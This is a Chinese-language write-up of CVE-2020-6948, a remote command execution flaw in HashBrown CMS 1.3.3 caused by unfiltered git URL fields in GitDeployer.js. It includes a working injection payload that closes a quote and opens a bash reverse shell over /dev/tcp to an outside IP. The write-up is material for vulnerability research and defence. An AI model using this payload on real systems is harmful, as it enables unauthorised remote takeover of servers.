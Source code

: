 ```yaml
---
title: "（CVE-2020-6948）HashBrown CMS 远程命令执行漏洞"
id: zhfly2964
---
```


# （CVE-2020-6948）HashBrown CMS 远程命令执行漏洞

## 一、漏洞简介

HashBrown CMS是一套开源的无头内容管理系统（CMS）。 HashBrown CMS 1.3.3及之前版本中存在远程代码执行漏洞，该漏洞源于程序没有进行正确的安全检查。攻击者可利用该漏洞执行代码。

## 二、漏洞影响

HashBrown CMS 1.3.3

## 三、复现过程

在之前收集的资料里面总结了发现漏洞基本有三个方法：

*   通过关键字搜索，比如exec方法在很多语言里面代表执行系统命令，那你就可以搜索查看传入exec方法的参数有没有经过过滤，有没有办法利用。https://github.com/wireghoul/graudit 这个项目就罗列了很多语言的关键词可以用作参考。
*   根据function来阅读代码，但是这种方法花费的时间比第一种多，有可能迷失在各种各种各样的方法中。
*   通读代码，这样最全，但是显然速度要慢很多了。

对于Hashbrown CMS，先用第一种方法开路。尝试了几个关键字之后我选取了exec这个关键字。在grep 之后发现了下面的结果。

![image](../img/0ca76dccc4bb1688f8b32eee76d34890.png)

看来这个应用使用git 相关命令，如果可以传入url 参数就有可能触发命令执行漏洞。接着打开Server/Entity/Deployer/GitDeployer.js 文件查看源代码。

![image](../img/10bf938c493402bbc2e3a8e8f84d6591.png)

其中可以看到url由username，password，和repro 几个变量拼接，而且其中没有过滤特殊的字符和命令。那接下来就是到页面里面寻找触发的点。经过对这个应用的一番熟悉，得知可以在登录后建立新的connection选择git部署的方式，在Repository，Branch，username或者password字段填写你要执行的命令即可。但是这里要注意程序本来的exec命令中填写有单引号，我们要对其进行闭合，比如填入如下命令来反弹一个shell。

```
https://google.com' & /bin/bash -c 'bash -i >& /dev/tcp/192.168.119.149/8888 0>&1 
```

配置如下：

![image](../img/28d40437f3002fd2be223cc0a7d02623.png)

然后点击media菜单触发git命令执行

![image](../img/a99c5d589913971ec98c7ae38c21b894.png)

接下来在监听的机器上就可以获得shell了

![image](../img/49a857884061e89c0b10e969064c5aa8.png)

## 参考链接

> https://mp.weixin.qq.com/s?__biz=MjM5MDYxODkyMA==&mid=2651345793&idx=1&sn=02381bb3dbd4679b12be4628d665e815&chksm=bdbef7c68ac97ed063e8df46a42e2a111dfd52f108f6b267f8dfc183b6b0ed3f87b6af757487&mpshare=1&scene=1&srcid=&sharer_sharetime=1582514363054&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=019d47c25aa835ac2d58a398c473737e01644761ca991f7009ada9eb1ef69e4dd41b2008c27db720006e0858455f920d0801d9feae53aa4314f05d6e310a7290ae2b93e17343c13f6a9f2ce360254195&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AZc%2BxZJwp8CueCtaKThWQrI%3D&pass_ticket=l4uNHDrGwGqrS%2BmJVv56i4FzemghweUeBbN1BEETCGd3TqEDSTcwvRMSxogubM8j